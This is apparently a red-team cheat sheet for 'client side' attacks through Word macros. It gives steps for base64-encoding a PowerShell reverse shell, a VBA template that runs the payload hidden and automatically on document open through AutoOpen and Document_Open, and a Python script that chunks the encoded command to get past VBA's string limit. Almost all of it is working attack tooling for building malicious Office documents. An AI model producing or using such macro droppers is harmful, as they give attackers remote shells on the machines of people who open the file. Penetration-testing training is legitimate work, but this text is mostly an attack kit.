 # Client side

## Word macro

#### Create macro

1. view → macro → create macro → Macros in: Doc \[document]
2. `<ps reverse shell> | base64 | tr -d “\n”`
3. Split the generated string in several 50-length strings and concatenate them in the script to avoid VBA string size limit of 255 chars
4. Store the file as **.doc** or **.docm** NOT as **.docx**

#### VBA template

```
Sub AutoOpen()
<macro name>
End Sub
Sub Document_Open()
<macro name>
End Sub
Sub <macro name>()
Dim <var> As String
<splitted base64 string>
CreateObject("Wscript.Shell").Run <var>
End Sub
```

#### Python cut script

```
b64 = ""				# paste base64 string here
varname = "Str"	# set variable name
n = 50					#line length

opt = "powershell.exe -nop -w hidden -e"
str = opt+" "+b64
for i in range(0, len(str), n):
	if i==0:
		print(varname + ' = "' + str[i:i+n] + '"')
	else:
		print(varname + ' = "' + varname + ' + "' + str[i:i+n] + '"')
```


